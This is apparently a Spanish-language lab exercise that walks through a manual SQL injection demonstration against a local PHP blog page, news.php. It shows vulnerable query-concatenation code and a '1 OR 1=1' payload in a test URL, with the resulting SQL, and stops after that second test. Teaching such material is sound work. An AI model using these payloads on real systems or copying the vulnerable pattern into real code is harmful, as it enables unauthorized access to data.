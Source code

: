 # Ejercicio 3: Demostración Manual de SQL Injection

## 🎯 Objetivo
Demostrar cómo la aplicación es vulnerable a SQL Injection de forma manual, detallando el proceso paso a paso.

## 🔍 Análisis de la Vulnerabilidad

### Código Vulnerable Identificado:
```php
// En news.php línea ~18
$query = "SELECT id, title, body, datetime FROM blog WHERE id = " . $id;
$result = $pdo->query($query);
```

### Problema:
- El parámetro `$id` se concatena **directamente** en la consulta SQL
- **No hay validación** del input del usuario
- **No hay escape** de caracteres especiales

## 🧪 Pruebas de Explotación Manual

### 1. Funcionamiento Normal
**URL:** `http://localhost/news.php?id=1`

**SQL Generada:**
```sql
SELECT id, title, body, datetime FROM blog WHERE id = 1
```
**Resultado:** ✅ Muestra el artículo con ID 1 normalmente

---

### 2. Prueba Básica de Inyección
**URL:** `http://localhost/news.php?id=1%20OR%201=1`

**URL sin codificar:** `http://localhost/news.php?id=1 OR 1=1`

**SQL Generada:**
```sql
SELECT id, title, body, datetime FROM blog WHERE id = 1 OR 1=1
```

**Explicación:**
- `1=1` siempre es verdadero
- La condición `WHERE` se vuelve siempre verdadera
- **Resultado esperado:** Muestra TODOS los artículos de la tabla

---
